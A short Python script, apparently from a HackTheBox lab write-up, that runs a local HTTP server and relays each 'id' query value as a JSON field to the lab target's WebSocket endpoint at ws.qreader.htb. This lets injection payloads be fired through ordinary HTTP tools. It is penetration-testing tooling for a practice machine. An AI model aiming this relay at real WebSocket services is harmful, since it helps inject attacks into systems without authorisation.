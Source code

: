 ```python
import contextlib
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://ws.qreader.htb:5789/version"


def send_ws(payload):
    ws = create_connection(ws_server)
    # If the server returns a response on connect, use below line
    # resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

    # For our case, format the payload in JSON
    # replacing ' with \" to avoid breaking JSON structure
    message = unquote(payload).replace("'", '\\"')

    data = f'{{"version":"{message}"}}'
    ws.send(data)
    resp = ws.recv()
    ws.close()

    return resp or ''


def middleware_server(host_port, content_type="text/plain"):
    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self) -> None:
            self.send_response(200)
            try:
                payload = urlparse(self.path).query.split('=', 1)[1]
            except IndexError:
                payload = False

            content = send_ws(
                payload) if payload else 'No parameters specified!'
            self.send_header("Content-type", content_type)
            self.end_headers()
            self.wfile.write(content.encode())
            return

    class _TCPServer(TCPServer):
        allow_reuse_address = True

    httpd = _TCPServer(host_port, CustomHandler)
    httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

with contextlib.suppress(KeyboardInterrupt):
    middleware_server(('127.0.0.1', 8081))
```
